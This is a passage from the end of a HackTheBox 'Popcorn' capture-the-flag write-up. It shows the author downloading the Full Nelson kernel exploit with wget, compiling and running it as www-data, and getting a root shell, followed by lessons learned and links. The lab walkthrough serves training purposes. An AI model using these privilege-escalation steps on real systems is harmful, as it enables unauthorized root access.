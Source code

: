 I downloaded to source code.

```none
wget http://vulnfactory.org/exploits/full-nelson.c
```

And uploaded it to server, and compiled it using the instructions in the source code.

```none
www-data@popcorn:/dev/shm$ gcc full-nelson.c -o full-nelson
gcc full-nelson.c -o full-nelson
www-data@popcorn:/dev/shm$ ls
ls
full-nelson
full-nelson.c
les.sh
linpeas.sh
www-data@popcorn:/dev/shm$ ./full-nelson
./full-nelson
id
uid=0(root) gid=0(root)
```

Success! A shell as `root`!

```none
wc -c /root/root.txt
33 /root/root.txt
```

Done!

## Lessons Learned

- Use POST requests for simpler PHP payload manipulation when using `$_REQUEST`
- Linux Exploit Suggester is a good tool for Linux privesc

## Useful Resources

- [HackTheBox - Popcorn by ippsec](https://www.youtube.com/watch?v=NMGsnPSm8iw)
- [HTB: Popcorn by 0xdf](https://0xdf.gitlab.io/2020/06/23/htb-popcorn.html)
- [How To Hack: Popcorn From HackTheBox by Marvin Gerlach](https://infosecwriteups.com/hackthebox-popcorn-f1ace3de846d)
